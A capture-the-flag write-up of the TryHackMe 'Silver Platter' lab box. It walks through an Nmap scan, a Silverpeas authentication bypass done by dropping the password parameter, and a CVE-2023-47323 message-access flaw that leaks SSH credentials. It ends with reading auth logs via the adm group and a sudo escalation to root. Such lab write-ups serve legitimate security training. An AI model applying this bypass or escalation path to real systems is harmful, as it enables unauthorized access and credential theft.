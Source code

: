 # THM - Silver Platter

### Ip: 10.129.21.176
### Name: Silver Platter
### Rating: Easy

------------------------------------------------

![thm_silver_platter_pic.png](../assets/silver_platter_assets/thm_silver_platter_pic.png)

### Intro:

```
Welcome to Silver Platter

Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Silver_Platter]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.234.44
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-13 10:53 CST
Nmap scan report for 10.10.234.44
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b1c878afe3416c9f782372b108f8bf1 (ECDSA)
|_  256 266d17ed839e4f2df6cd5317c8803d09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:48 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:47 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|_http-title: Error
```

Looking at the page on port 80 we find a simple site for a security company:

thm_silver_platter_site.png

Clicking on the Contact button we find:

thm_silver_platter_contact.png

We can access the SilvePeas login at http://10.10.234.44:8080/silverpeas

thm_silver_platter_login.png

### Exploitation

Looking for Silverpeas exploits I find some info about a login bypass at: https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

We can replicate this by capturing a login request in burp and removing the password field as demonstrated in the writeup:

```
Login=SilverAdmin&DomainId=0
```

thm_silver_platter_burp.png

Forwarding the request we find ourselves authenticated:

thm_silver_platter_in.png

Looking for more silverpeas exploits I find:

https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323

Which outlines a broken access control vulnerability that allows us to view all messages.

Browsing the messages using the ID parameter we find:

thm_silver_platter_creds.png

Nice, looks like we've got some SSH credentials here: `tom:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`

We can use these to SSH onto the box and grab the user.txt flag:

thm_silver_platter_user.png

### Privilege Escalation

Running the `id` command we see that user tim is in the `adm` group, which means we will likely have read access to several files in `/var/log`.

```
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

In `/var/log` we find a few interesting log files and discover a credential in auth.log.2 and can use this to `su tyler`:

thm_silver_platter_log.png

```
tim@silver-platter:/var/log$ su tyler
Password: 
tyler@silver-platter:/var/log$
```

Now that we are user tyler we can run `sudo -l` and find:

```
tyler@silver-platter:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We can now run:

```
tyler@silver-platter:/var/log$ sudo su -
root@silver-platter:~# whoami
root
```

And grab the final flag:

thm_silver_platter_root.png

Thanks for following along!

-Ryan

----------------------------------------------
